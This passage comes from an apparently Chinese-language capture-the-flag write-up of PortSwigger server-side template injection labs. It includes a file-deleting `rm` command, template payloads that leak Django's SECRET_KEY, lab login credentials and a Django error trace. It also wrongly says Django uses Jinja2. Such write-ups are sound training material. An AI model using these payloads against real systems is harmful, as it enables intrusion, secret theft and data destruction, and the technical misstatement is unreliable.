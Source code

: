 就解了，ㄟ不是，不是說要刪檔案ㄇ，我還沒刪ㄟ

如果要刪的話就把上面的腳本的 `id` 改成 `rm /home/carlos/morale.txt` ㄅ


## [Lab: Server-side template injection with information disclosure via user-supplied objects](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-with-information-disclosure-via-user-supplied-objects)
### 題目敘述
 This lab is vulnerable to server-side template injection due to the way an object is being passed into the template. This vulnerability can be exploited to access sensitive data.

To solve the lab, steal and submit the framework's secret key.

You can log in to your own account using the following credentials: content-manager:C0nt3ntM4n4g3r 

### 題目解釋
要偷 framework 的 secret key

### 解答

修改文章的地方觀察到有出現 `{{product.stock}}`


如果讓他輸入 `{{type(product)}}` 會噴錯

```
Internal Server Error

Traceback (most recent call last): File "<string>", line 11, in <module> File "/usr/lib/python2.7/dist-packages/django/template/base.py", line 191, in __init__ self.nodelist = self.compile_nodelist() File "/usr/lib/python2.7/dist-packages/django/template/base.py", line 230, in compile_nodelist return parser.parse() File "/usr/lib/python2.7/dist-packages/django/template/base.py", line 486, in parse raise self.error(token, e) django.template.exceptions.TemplateSyntaxError: Could not parse the remainder: '(product)' from 'type(product)' 
```

看得出是 Django 的 Error，而 Django 用 Jinja2，所以可以直接取 Secret key ，使用

```
{{settings.SECRET_KEY}}
```

就能偷出來ㄌ

## [Lab: Server-side template injection in a sandboxed environment](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-in-a-sandboxed-environment)
### 題目敘述
 This lab uses the Freemarker template engine. It is vulnerable to server-side template injection due to its poorly implemented sandbox. To solve the lab, break out of the sandbox to read the file my_password.txt from Carlos's home directory. Then submit the contents of the file.
